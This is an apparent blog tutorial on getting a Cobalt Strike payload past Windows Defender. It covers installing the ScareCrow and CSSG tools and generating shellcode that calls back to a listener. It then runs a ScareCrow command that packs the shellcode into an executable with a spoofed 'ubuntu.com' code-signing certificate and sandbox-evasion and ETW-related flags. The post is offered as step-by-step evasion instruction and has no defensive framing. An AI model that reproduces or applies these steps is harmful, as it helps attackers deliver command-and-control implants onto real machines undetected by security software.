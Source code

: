 ```yaml
---
title: Bypassing AV using ScareCrow
layout: post
---
```


This post demonstrates how to bypass defender in order to execute your Cobalt Strike payload.

### Sources
https://github.com/optiv/ScareCrow
https://github.com/RCStep/CSSG


## Installing ScareCrow

First clone the git repository

![img1](https://imgur.com/sjvDX3e.png)

In order to build ScareCrow, you must have `Go` installed along with the following dependencies.

  ```
sudo apt install golang openssl osslsigncode mingw-w64
  ```

Once installed, build ScareCrow.

![build](https://imgur.com/MKCK0Xj.png)



## Installing CSSG

For the next part, we must install the Cobalt Strike Shellcode Generator

```
sudo apt install python2.7 python3.9
python -m pip install pycryptodome
python3 -m pip install pycryptodome
py -3 -m pip install pycryptodome
py -2 -m pip install pycryptodome
```

Download [CSSG](https://github.com/RCStep/CSSG) and move it to somewhere accessible.

Open the script manager by clicking "Cobalt Strike" in the top left of the client then selecting "Script Manager".

Press "Load" and open "CSSG_load.cna" as shown

![load](https://imgur.com/yIHwdhc.png)

We now need to create a listener in order to generate the shellcode to call back to it.
Press the headphones icon and setup your listener as needed.

![listener](https://imgur.com/7GCE9xd.png)

Once loaded, a new option should be added to the top menu, called "Shellcode".

![shellcode](https://imgur.com/LEY6tiS.png)

Open the Shellcode GUI and generate your payload, encryption such as XOR/AES is optional

![gen](https://imgur.com/zveOFuW.png)



## Using ScareCrow to generate the payload

Once you have made your shellcode, we can now use ScareCrow.

`./ScareCrow -I /path/to/shellcode -sandbox -noetw -domain www.ubuntu.com`

This command will convert our Cobalt Strike shellcode into an executable, with a fake certificate signed by "ubuntu.com", howver you can use `-vaid` to provide a valid code signing certificate.

The sandbox flag enables sandbox evasion by using `IsDomainJoined` calls, and the noetw flag disbaled ETW patching which prevents ETW events for being generated

https://docs.microsoft.com/en-us/windows/win32/etw/about-event-tracing

![scarecrow](https://imgur.com/zmiuFGb.png)
